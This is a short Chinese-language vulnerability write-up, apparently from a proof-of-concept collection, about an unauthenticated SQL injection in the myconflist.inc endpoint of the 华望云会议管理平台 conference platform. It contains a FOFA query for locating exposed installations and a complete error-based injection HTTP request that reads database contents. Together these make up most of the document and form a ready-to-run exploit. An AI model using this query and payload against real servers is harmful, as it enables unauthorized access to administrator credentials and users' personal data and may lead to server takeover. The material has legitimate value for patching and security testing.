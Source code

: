 # 华望云会议管理平台myconflist.in存在SQL注入漏洞

华望云会议管理平台 `myconflist.in` 接口处存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```javascript
title="华望云会议管理平台"
```

## poc

```javascript
GET /page/myconflist.inc?search=1%25'+and+1%3d(updatexml(0x7e,concat(1,(select+user())),1))+and+'%25%25'+like+'&params[]=confName&params[]=confId&selectTime=1 HTTP/1.1
Host: 
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Cookie: uid=112; 获取到的cookie languageGlobal=1
```

![ed5c1a12018c4e1a862263ac386838f5.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409132247707.png)